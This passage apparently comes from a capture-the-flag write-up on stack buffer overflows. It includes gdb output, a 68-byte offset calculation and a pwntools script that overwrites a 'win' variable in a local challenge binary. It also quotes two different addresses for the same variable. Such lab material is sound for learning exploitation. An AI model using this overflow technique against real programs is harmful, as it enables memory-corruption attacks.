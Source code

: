 This block of code decides whether we get the flag or not.

We can see that the `cmp` instruction is comparing whether the value stored in $eax has been changed.

And from the two lines above, we learn that the value in $eax is moved from dereferenced `[rbp-0x58]`.

Let's check the value of `[rbp-0x58]`:

```
gef➤  x/a $rbp - 0x58
0x7fff4cbdb278: 0x7fff4cbdb2c4
```

The location of the win variable is `0x7ffc615eec14`.

So we have all the information we need:

* [x] Location of buffer: `0x7fff4cbdb280`.
* [x] Location of win variable: `0x7fff4cbdb2c4`.

Let's find the distance between the buffer and win variable in order to get the length of our payload padding.

```
gef➤  p/d 0x7fff4cbdb2c4 - 0x7fff4cbdb280
$3 = 68
```

We are all set to craft our payload.

```python
from pwn import *

padding = b'A' * 68
payload = padding + p64(0x42424242)

p = process('/challenge/babymem_level1.1')
p.recvuntil('size:')
p.sendline('200')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

&nbsp;

## level 2.0

> Overflow a buffer on the stack to set trickier conditions to obtain the flag!


```
	    +---------------------------------+-------------------------+--------------------+
	    |                  Stack location |            Data (bytes) |      Data (LE int) |
	    +---------------------------------+-------------------------+--------------------+
esp ------> | 0x00007fff85a4bc80 (rsp+0x0000) | a0 e6 1b 00 00 00 00 00 | 0x00000000001be6a0 |
            | 0x00007fff85a4bc88 (rsp+0x0008) | 78 ce a4 85 ff 7f 00 00 | 0x00007fff85a4ce78 |
	    | 0x00007fff85a4bc90 (rsp+0x0010) | 68 ce a4 85 ff 7f 00 00 | 0x00007fff85a4ce68 |
	    | 0x00007fff85a4bc98 (rsp+0x0018) | 23 57 70 85 01 00 00 00 | 0x0000000185705723 |
	    | 0x00007fff85a4bca0 (rsp+0x0020) | 68 0d 00 00 00 00 00 00 | 0x0000000000000d68 |
	    | 0x00007fff85a4bca8 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
	    | 0x00007fff85a4bcb0 (rsp+0x0030) | c0 bc a4 85 ff 7f 00 00 | 0x00007fff85a4bcc0 | <------ *buff
	    | 0x00007fff85a4bcb8 (rsp+0x0038) | 18 bd a4 85 ff 7f 00 00 | 0x00007fff85a4bd18 | <------ *win
	    | 0x00007fff85a4bcc0 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \
	    | 0x00007fff85a4bcc8 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  \
            | 0x00007fff85a4bcd0 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
```